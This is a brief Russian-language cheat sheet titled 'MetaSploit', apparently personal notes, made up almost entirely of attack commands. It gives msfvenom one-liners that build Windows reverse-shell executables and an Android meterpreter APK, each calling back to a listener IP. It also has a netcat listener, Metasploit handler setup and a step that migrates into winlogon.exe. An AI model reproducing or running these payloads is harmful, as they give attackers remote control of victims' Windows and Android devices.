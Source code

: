 # MetaSploit

Создаем реверс шелл для виндовс
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.50.200 lport=5555 -f exe -o sh1.exe


проверено для netcat и для метасплойт

msfvenom -p windows/shell_reverse_tcp LHOST=10.18.35.17 LPORT=7777 -f exe -o Zero.exe
rlwrap nc -lvnp 7777

вместо неткат для метасплойт

use exploit/multi/handler

migrate -N winlogon.exe

run



Для АНДРОИД
msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.50.123 lport= 5555 R> Test.apk


